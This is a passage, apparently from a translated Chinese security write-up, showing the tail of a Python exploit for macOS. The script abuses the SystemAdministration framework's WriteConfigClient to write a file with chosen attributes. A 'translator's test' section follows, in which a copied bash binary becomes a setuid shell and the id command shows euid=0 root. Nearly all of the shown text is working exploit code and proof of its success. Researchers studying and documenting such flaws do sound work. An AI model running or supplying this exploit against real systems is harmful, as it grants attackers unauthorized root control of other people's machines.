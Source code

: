 ```
    tool.createFileWithContents_path_attributes_(data, dest_binary, attr)
else:
    adm_lib = load_lib("/SystemAdministration.framework/SystemAdministration")
    WriteConfigClient = objc.lookUpClass("WriteConfigClient")
    client = WriteConfigClient.sharedClient()
    client.authenticateUsingAuthorizationSync_(None)
    tool = client.remoteProxy()

    tool.createFileWithContents_path_attributes_(data, dest_binary, attr, 0)


print "Done!"

del pool

```

0x05 译者测试
=========

* * *

```
[test@test:~]$ cp /bin/bash bashceshi 
[test@test:~]$ python CVE-2013-1775.py bashceshi bashroot
will write file /Users/test/Downloads/bashroot 
Done! 
[test@test:~]$ ./bashroot -p
bashroot-3.2# id
uid=501(test) gid=20(staff) euid=0(root) groups=20(staff),501(access_bpf),402(com.apple.sharepoint.group.1),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),33(_appstore),100(_lpoperator),204(_developer),398(com.apple.access_screensharing),399(com.apple.access_ssh)

```